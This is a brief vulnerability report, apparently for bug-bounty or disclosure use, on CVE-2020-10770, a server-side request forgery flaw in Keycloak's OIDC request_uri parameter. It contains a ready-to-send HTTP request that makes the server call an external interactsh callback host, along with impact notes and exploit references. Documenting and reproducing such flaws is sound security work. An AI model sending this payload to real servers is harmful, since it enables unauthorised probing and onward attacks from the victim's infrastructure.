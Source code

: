 
#  SSRF due to CVE-2020-10770

A flaw was found in Keycloak before 13.0.0, where it is possible to force the server to call out an unverified URL using the OIDC parameter request_uri. This flaw allows an attacker to use this parameter to execute a Server-side request forgery (SSRF) attack.


## Steps To Reproduce

```
GET /auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=cfx&nonce=cfx&client_id=security-admin-console&request_uri=http://c67lhoqh71pj9htsttr0cg8it3yyyyyyn.interactsh.com/ HTTP/1.1
Host: $HOST
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```
Response
```
RESPONSE
```

## Impact

An SSRF exploit that causes connections to external third-party systems might result in malicious onward attacks that appear to originate from the organization hosting the vulnerable application, leading to potential legal liabilities and reputational damage. 	


### Supporting Material/References

 * https://packetstormsecurity.com/files/164499/Keycloak-12.0.1-Server-Side-Request-Forgery.html
 *  https://www.exploit-db.com/exploits/50405
 *  https://nvd.nist.gov/vuln/detail/CVE-2020-10770

